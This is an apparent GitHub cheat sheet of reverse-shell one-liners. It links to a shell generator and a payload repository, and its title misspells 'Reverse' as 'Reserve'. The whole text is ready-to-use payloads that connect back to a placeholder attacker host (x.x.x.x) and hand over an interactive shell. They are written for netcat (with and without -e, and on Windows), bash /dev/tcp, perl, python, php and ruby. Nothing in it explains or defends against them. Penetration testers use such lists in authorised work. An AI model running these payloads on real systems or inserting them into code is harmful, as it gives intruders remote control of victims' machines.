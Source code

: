 Reserve Shell Cheat Sheet

# Reserve Shell Cheat Sheet

Resources:
- https://weibell.github.io/reverse-shell-generator/
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell

netcat:
```
nc -e /bin/sh x.x.x.x 4444
```

netcat Windows:
```
nc.exe x.x.x.x 4444 –e cmd.exe
```

netcat without -e:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc x.x.x.X 4444 >/tmp/f
```

Bash:
```
bash -i >& /dev/tcp/x.x.x.x/8080 0>&1  
```
```
setsid bash -i &>/dev/tcp/x.x.x.x/8080 0>&1 &
```


Perl:
```
perl -e 'use Socket;$i="x.x.x.x";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'  
```

Python:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("x.x.x.x",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

php:
```
php -r '$sock=fsockopen("x.x.x.x",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

ruby:
```
ruby -rsocket -e'f=TCPSocket.open("x.x.x.x",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
